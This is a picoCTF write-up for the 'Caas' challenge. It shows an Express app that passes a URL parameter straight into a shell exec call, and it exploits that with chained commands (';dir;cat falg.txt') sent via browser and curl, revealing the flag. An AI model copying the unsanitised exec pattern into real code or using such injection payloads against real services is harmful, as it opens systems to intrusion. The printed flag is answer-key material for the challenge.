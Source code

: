 # Caas
Author: dch0017

## Challenge Description
Now presenting cowsay as a service

## Accessing Site
We get a fun little site that lets us send messages using the extended url ```/cowsay/:message``` </br>
![website](./website.png)
</br>

</br>
![moo](./moo.png)
</br>


## Index.js
We also get an index. js file like below
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

We can see that when the ```/cowsay/:message``` is called it pipes all text from there to ```stdout``` (as long as there are no errors). Well this looks like we just need to inject a command in our message.

## Message Injection
Just trying to do a direct ```dir``` command to list the file directory just gives us a cow:</br>
![dir](./dir.png)
</br>

If we are wanting to pipe two inputs on a singular line, we would need to use either a ```;``` or a ```&&``` [reference](https://www.howtogeek.com/269509/how-to-run-two-or-more-terminal-commands-at-once-in-linux/)</br>

So let's try that with ```dir```:</br>
![moodir](./moodir.png)
</br>

Sweet, we see that there is a file called ```falg.txt``` and we can ```cat``` that out. I won't remove dir, I'll just add onto it to show we could really throw as many commands as we want.</br>
![flag](./flag.png)
</br>

## Curl method
We could have also accomplished this using curl, though make sure to put the entire URL in quotes or you will be running the separate commands on your own machine:
```console
PS C:\temp> curl "https://caas.mars.picoctf.net/cowsay/moo;dir;cat%20falg.txt"
 _____
< moo >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile  falg.txt  index.js  node_modules  package.json  public  yarn.lock
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```